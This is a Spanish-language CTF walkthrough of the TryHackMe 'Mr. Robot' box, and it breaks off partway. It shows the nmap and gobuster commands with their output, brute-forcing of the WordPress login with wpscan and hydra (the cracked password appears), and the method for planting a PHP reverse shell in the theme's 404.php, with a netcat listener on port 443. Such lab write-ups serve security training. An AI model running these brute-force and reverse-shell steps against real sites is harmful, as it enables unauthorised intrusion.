








La máquina Mr. Robot de TryHackMe está basada en la popular serie de televisión y simula un entorno realista con un sistema vulnerable al estilo CTF. El reto está clasificado como de dificultad media y está enfocado en tres fases principales:
Durante este reto se pondrán a prueba habilidades en herramientas como nmap, gobuster, john, hydra, y técnicas de análisis de WordPress.
#nmap -sC -sV -vv -T5 10.10.162.140
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-15 19:54 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:54
Completed NSE at 19:54, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:54
Completed NSE at 19:54, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:54
Completed NSE at 19:54, 0.00s elapsed
Initiating Ping Scan at 19:54
Scanning 10.10.162.140 [4 ports]
Completed Ping Scan at 19:54, 0.40s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:54
Completed Parallel DNS resolution of 1 host. at 19:54, 0.03s elapsed
Initiating SYN Stealth Scan at 19:54
Scanning 10.10.162.140 [1000 ports]
Discovered open port 443/tcp on 10.10.162.140
Discovered open port 80/tcp on 10.10.162.140
Completed SYN Stealth Scan at 19:55, 9.93s elapsed (1000 total ports)
Initiating Service scan at 19:55
Scanning 2 services on 10.10.162.140
Completed Service scan at 19:55, 14.08s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.162.140.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:55
Completed NSE at 19:55, 9.94s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:55
Completed NSE at 19:55, 2.46s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:55
Completed NSE at 19:55, 0.06s elapsed
Nmap scan report for 10.10.162.140
Host is up, received reset ttl 61 (0.25s latency).
Scanned at 2025-04-15 19:54:51 AST for 37s
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
22/tcp closed ssh reset ttl 61
80/tcp open http syn-ack ttl 61 Apache httpd
|_http-server-header: Apache
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http syn-ack ttl 61 Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after: 2025-09-13T10:45:03
| MD5: 3c16:3b19:87c3:42ad:6634:c1c9:d0aa:fb97
| SHA-1: ef0c:5fa5:931a:09a5:687c:a2c2:80c4:c792:07ce:f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
El escaneo anterior encontró 3 puertos en la caja, pero solo 2 estaban abiertos, mientras que el Puerto 22 (SSH) está cerrado.
Si vas a la página de inicio del sitio web, hay alguna animación de arranque y después de que haya terminado hay muchas opciones en el mensaje del terminal.

Voy a usar Gobuster para realizar una enumeración de directorios ocultos en el servidor. Esta herramienta me permitirá identificar rutas no visibles en la página web, lo cual es útil para encontrar directorios o archivos que podrían tener información interesante o vulnerabilidades.
#gobuster dir -u 10.10.162.140 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.162.140
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403) [Size: 213]
/.htaccess (Status: 403) [Size: 218]
/.htpasswd (Status: 403) [Size: 218]
Progress: 130 / 4615 (2.82%)[ERROR] Get "http://10.10.162.140/_config": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.162.140/_conf": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.162.140/_css": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/0 (Status: 301) [Size: 0] [--> http://10.10.162.140/0/]
/admin (Status: 301) [Size: 235] [--> http://10.10.162.140/admin/]
/atom (Status: 301) [Size: 0] [--> http://10.10.162.140/feed/atom/]
/audio (Status: 301) [Size: 235] [--> http://10.10.162.140/audio/]
/blog (Status: 301) [Size: 234] [--> http://10.10.162.140/blog/]
/css (Status: 301) [Size: 233] [--> http://10.10.162.140/css/]
/dashboard (Status: 302) [Size: 0] [--> http://10.10.162.140/wp-admin/]
Progress: 1261 / 4615 (27.32%)[ERROR] Get "http://10.10.162.140/counters": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.10.162.140/coupon": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/favicon.ico (Status: 200) [Size: 0]
/feed (Status: 301) [Size: 0] [--> http://10.10.162.140/feed/]
/Image (Status: 301) [Size: 0] [--> http://10.10.162.140/Image/]
/image (Status: 301) [Size: 0] [--> http://10.10.162.140/image/]
/images (Status: 301) [Size: 236] [--> http://10.10.162.140/images/]
/index.html (Status: 200) [Size: 1188]
/index.php (Status: 301) [Size: 0] [--> http://10.10.162.140/]
/js (Status: 301) [Size: 232] [--> http://10.10.162.140/js/]
/intro (Status: 200) [Size: 516314]
Progress: 2261 / 4615 (48.99%)[ERROR] Get "http://10.10.162.140/img2": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/license (Status: 200) [Size: 309]
/login (Status: 302) [Size: 0] [--> http://10.10.162.140/wp-login.php]
/page1 (Status: 301) [Size: 0] [--> http://10.10.162.140/]
/phpmyadmin (Status: 403) [Size: 94]
/rdf (Status: 301) [Size: 0] [--> http://10.10.162.140/feed/rdf/]
/readme (Status: 200) [Size: 64]
/robots (Status: 200) [Size: 41]
/robots.txt (Status: 200) [Size: 41]
/rss (Status: 301) [Size: 0] [--> http://10.10.162.140/feed/]
/rss2 (Status: 301) [Size: 0] [--> http://10.10.162.140/feed/]
/sitemap (Status: 200) [Size: 0]
/sitemap.xml (Status: 200) [Size: 0]
/video (Status: 301) [Size: 235] [--> http://10.10.162.140/video/]
/wp-admin (Status: 301) [Size: 238] [--> http://10.10.162.140/wp-admin/]
/wp-config (Status: 200) [Size: 0]
/wp-content (Status: 301) [Size: 240] [--> http://10.10.162.140/wp-content/]
/wp-cron (Status: 200) [Size: 0]
/wp-links-opml (Status: 200) [Size: 227]
/wp-load (Status: 200) [Size: 0]
/wp-login (Status: 200) [Size: 2613]
/wp-includes (Status: 301) [Size: 241] [--> http://10.10.162.140/wp-includes/]
/wp-mail (Status: 500) [Size: 3064]
/wp-settings (Status: 500) [Size: 0]
/wp-signup (Status: 302) [Size: 0] [--> http://10.10.162.140/wp-login.php?action=register]
/xmlrpc.php (Status: 405) [Size: 42]
/xmlrpc (Status: 405) [Size: 42]
Este resultado de Gobuster muestra varios directorios y archivos que se encuentran en el servidor web. Aquí algunos puntos claves:

Al acceder a la ruta /wp-admin, se presenta una pantalla de inicio de sesión de WordPress. Probé con el nombre de usuario elliot y una contraseña aleatoria, lo que generó el mensaje: "ERROR: The password you entered for the username elliot is incorrect." Esto confirma que el usuario elliot existe en el sistema, por lo que el siguiente paso será intentar obtener su contraseña, posiblemente mediante fuerza bruta o revisando archivos expuestos que puedan contener credenciales.

Al revisar el archivo robots.txt, encontré dos entradas interesantes: fsocity.dic, que parece ser un diccionario útil para realizar un ataque de fuerza bruta, y key-1-of-3.txt, que corresponde a la primera bandera del reto.

Accedí a la ruta /fsocity.dic desde el navegador y confirmé que se trata de un diccionario de palabras, probablemente útil para un ataque de fuerza bruta. Sin embargo, noté que contiene muchas palabras repetidas, por lo que sería recomendable limpiarlo antes de usarlo.
#wget http://10.10.162.140/fsocity.dic
--2025-04-15 21:28:02-- http://10.10.162.140/fsocity.dic
Conectando con 10.10.162.140:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 7245381 (6.9M) [text/x-c]
Grabando a: «fsocity.dic»
fsocity.dic 100%[===================================>] 6.91M 299KB/s en 45s
2025-04-15 21:28:57 (159 KB/s) - «fsocity.dic» guardado [7245381/7245381]
Descargué el diccionario mencionado utilizando wget.
Como el diccionario fsocity.dic contenía muchas palabras repetidas, utilicé el siguiente comando para eliminar las duplicadas y obtener una lista limpia:
sort fsocity.dic | uniq > fsocity-sorted.dic
#wpscan --url http://10.10.162.140/ -U Elliot -P fsocity-sorted.dic
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] URL: http://10.10.162.140/ [10.10.162.140]
[+] Started: Wed Apr 16 13:29:16 2025
Interesting Finding(s):
[+] Headers
| Interesting Entries:
| - Server: Apache
| - X-Mod-Pagespeed: 1.9.32.3-4523
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] robots.txt found: http://10.10.162.140/robots.txt
| Found By: Robots Txt (Aggressive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://10.10.162.140/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] The external WP-Cron seems to be enabled: http://10.10.162.140/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
| Found By: Emoji Settings (Passive Detection)
| - http://10.10.162.140/98ee048.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
| Confirmed By: Meta Generator (Passive Detection)
| - http://10.10.162.140/98ee048.html, Match: 'WordPress 4.3.1'
[+] WordPress theme in use: twentyfifteen
| Location: http://10.10.162.140/wp-content/themes/twentyfifteen/
| Last Updated: 2025-04-15T00:00:00.000Z
| Readme: http://10.10.162.140/wp-content/themes/twentyfifteen/readme.txt
| [!] The version is out of date, the latest version is 4.0
| Style URL: http://10.10.162.140/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
| Style Name: Twenty Fifteen
| Style URI: https://wordpress.org/themes/twentyfifteen/
| Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In 404 Page (Passive Detection)
|
| Version: 1.3 (80% confidence)
| Found By: Style (Passive Detection)
| - http://10.10.162.140/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:10 <=> (137 / 137) 100.00% Time: 00:00:10
[i] No Config Backups Found.
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:49 <=========================== > (12 / 22) 54.54% ETA: ??:??:??
[!] Valid Combinations Found:
| Username: Elliot, Password: ER28-0652
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed Apr 16 13:30:50 2025
[+] Requests Done: 187
[+] Cached Requests: 6
[+] Data Sent: 1.63 MB
[+] Data Received: 1.496 MB
[+] Memory used: 313.766 MB
[+] Elapsed time: 00:01:34
Utilicé wpscan para lanzar un ataque de fuerza bruta al login de WordPress usando el usuario Elliot y el diccionario fsocity-sorted.dic que había encontrado anteriormente. Gracias a esta herramienta, logré descubrir las credenciales correctas: usuario: Elliot, contraseña: ER28-0652, lo que me permitió acceder al panel administrativo del sitio.
#hydra -l Elliot -P fsocity-sorted.dic 10.10.162.140 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 30
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-17 08:01:31
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.118.123:80/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR
[STATUS] 1259.00 tries/min, 1259 tries in 00:01h, 10193 to do in 00:09h, 30 active
[STATUS] 792.67 tries/min, 2378 tries in 00:03h, 9074 to do in 00:12h, 30 active
[STATUS] 651.57 tries/min, 4561 tries in 00:07h, 6891 to do in 00:11h, 30 active
[80][http-post-form] host: 10.10.118.123 login: Elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Tambien podemos obtener la contraseña por medio de fuerza bruta, utilicé Hydra para realizar un ataque de fuerza bruta contra el formulario de inicio de sesión de WordPress. Empleé el usuario Elliot y el diccionario fsocity-sorted.dic, previamente recolectado durante la enumeración. Tras varios intentos, Hydra logró identificar las credenciales válidas: usuario: Elliot, contraseña: ER28-0652. Con esta información pude acceder al panel de administración de WordPress.

logré acceder exitosamente al panel de administración de WordPress mediante el usuario Elliot y la contraseña ER28-0652. En la imagen se muestra el panel principal (Dashboard) correspondiente a WordPress versión 4.3.1, utilizando el tema predeterminado Twenty Fifteen. Este acceso representa un punto crítico en el compromiso del sistema, ya que desde esta interfaz administrativa es posible gestionar contenido, usuarios, plugins, y configuraciones del sitio. Además, abre la posibilidad de escalar privilegios o introducir código malicioso mediante la instalación de plugins o edición de archivos del tema.

Con acceso al panel de administración de WordPress, navegué hasta el editor de temas en Appearance > Editor. Desde aquí es posible modificar directamente los archivos del tema activo, en este caso Twenty Fifteen. Esta funcionalidad representa una excelente oportunidad para ejecutar código malicioso en el servidor.
Específicamente, el archivo 404.php es una ubicación comúnmente utilizada para inyectar una reverse shell, ya que puede ser invocado fácilmente al acceder a una ruta inexistente en el sitio web.

Para establecer una conexión remota con el sistema comprometido, se optó por utilizar una reverse shell en PHP desarrollada por PentestMonkey, una herramienta ampliamente conocida y utilizada en entornos de pruebas de penetración. Este script, php-reverse-shell.php, permite iniciar una conexión inversa desde el servidor víctima hacia el atacante, proporcionando una shell remota interactiva.
Antes de implementarla, es necesario modificar las variables $ip y $port con la dirección IP del atacante y el puerto de escucha configurado en la máquina local, típicamente usando herramientas como netcat. Una vez cargada en el servidor (por ejemplo, dentro del archivo 404.php del tema activo en WordPress), se ejecuta al acceder al recurso correspondiente, estableciendo la sesión de control.

se modificaron las variables $ip y $port del archivo php-reverse-shell.php, estableciendo como valores la dirección IP del atacante y el puerto 443. Este puerto fue elegido debido a que es comúnmente utilizado para tráfico HTTPS, lo que puede facilitar el paso del tráfico a través de firewalls o mecanismos de filtrado sin levantar sospechas.
Pongamos a Netcat a la escucha por el puerto que especificamos en la reverse shell con el siguiente comando:
nc -lvnp 443